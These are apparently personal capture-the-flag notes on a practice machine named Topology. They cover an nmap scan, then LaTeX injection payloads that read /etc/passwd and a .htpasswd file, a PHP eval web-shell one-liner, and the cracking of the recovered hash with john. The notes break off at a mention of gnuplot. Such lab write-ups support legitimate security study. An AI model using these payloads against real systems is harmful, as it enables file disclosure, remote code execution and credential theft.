

```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-04 23:54 EDT
Nmap scan report for 10.10.11.217
Host is up (0.43s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 72.38 seconds
```
adding topology.htb to /etc/hosts

http://latex.topology.htb/equation.php

```
GET /equation.php?eqn=H%2Bm&submit= HTTP/1.1
Host: latex.topology.htb
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://latex.topology.htb/equation.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```
it makes an image at 
http://latex.topology.htb/equation.php?eqn=H%2Bm&submit=



may not be vulnerable to injection attacks

### Latex injection attacks

https://book.hacktricks.xyz/pentesting-web/formula-doc-latex-injection#latex-injection

when trying with input : 
\input{/etc/passwd}


so there maybe a filter

when trying `\openin\file=/etc/passwd`
we have 

\begin{filecontents*}{someb0dy1.php}
<?php @eval($_POST['cmd]); ?>
\end{filecontents*}

this worked
$\lstinputlisting{/etc/passwd}$

$\lstinputlisting{/var/www/dev/.htpasswd}$


vdaisley : $apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0

`john --wordlist=/usr/share/wordlists/rockyou.txt pass.txt` 

Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 AVX 4x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
calculus20       (?)     
1g 0:00:00:07 DONE (2023-07-05 02:23) 0.1308g/s 130328p/s 130328c/s 130328C/s calebd1..caitlyn09
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

we know taht /opt/gnuplot a program is running


